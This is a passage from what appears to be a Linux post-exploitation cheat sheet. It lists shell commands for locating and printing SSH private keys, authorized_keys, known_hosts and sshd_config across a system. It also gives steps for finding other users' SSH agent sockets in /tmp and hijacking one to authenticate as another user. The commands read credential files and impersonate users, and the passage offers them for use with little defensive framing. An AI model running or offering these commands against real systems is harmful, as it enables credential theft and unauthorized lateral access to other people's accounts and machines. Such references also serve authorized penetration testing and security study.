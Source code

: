 	grep '^sudo:.*$' /etc/group
	```

# SSH Credentials

#### SSH Private Keys
- **Locates authorized SSH keys:**
	```bash
	find / -name "authorized_keys" 2>/dev/null
	```
- **Search for private SSH keys:**
	```bash
	find / -name "id_rsa" 2>/dev/null
	find / -name "*.pem" 2>/dev/null
	```

#### Examine SSH Configuration Files
- **Lists authorized SSH keys for the current user:**
	```bash
	cat ~/.ssh/authorized_keys
	```
- **Displays private SSH key (requires read permission):**
	```bash
	cat ~/.ssh/id_rsa
	```
- **Displays SSH daemon configuration:**
	```bash
	cat /etc/ssh/sshd_config
	```

#### SSH Known Hosts
- **List Known Hosts:**
	```bash
	cat /home/<username>/.ssh/known_hosts
	```

#### SSH Agent (SSH Agent Hijacking)
- **List all users’ agents:**
	```bash
	find /tmp/ -type s -name agent.*
	```
- **Check for active SSH agent:**
	```bash
	env | grep SSH_AUTH_SOCK
	```
- **List identities currently held by SSH agent:**
	```bash
	ssh-add -L
	```
- **Hijack the SSH agent to authenticate as another user:**
	```bash
	export SSH_AUTH_SOCK=/tmp/ssh-XXXXXX/agent.<pid>
	ssh-add -l
	```
